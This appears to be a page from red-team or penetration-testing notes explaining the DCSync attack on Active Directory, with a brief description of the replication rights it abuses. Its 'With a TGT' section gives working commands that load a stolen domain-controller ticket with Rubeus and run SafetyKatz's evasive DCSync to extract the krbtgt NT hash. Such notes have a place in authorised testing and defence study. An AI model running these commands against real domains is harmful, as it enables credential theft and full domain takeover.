 # DCSync

Active Directories may have multiple domain controllers: when a change is performed on one domain controller, it is necessary that the other domain controllers be aware of the change. Therefore, there is a replication mechanism implemented to perform synchronisation of the data held by the DC.

Domain controllers have by default the right `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`. The former is usually necessary to replicate non-sensitive changes; the latter also replicates secrets. Both rights are needed to perform a `DCSync` attack.

Note that in general, no user account should be granted this right.

## With a TGT

In this example, we have a TGT for the machine account of a domain controller (obtained for instance through [unconstrained-delegation.md](unconstrained-delegation.md "mention")).

We first load the ticket in memory:

```powershell
> Rubeus.exe ptt /ticket:<base64>
```

Then use `SafetyKatz` to perform `DCSync`:

```powershell
> SafetyKatz.exe "lsadump::evasive-dcsync /user:us\krbtgt" "exit"
```

This command retrieves the NT hash of the `krbtgt` user.
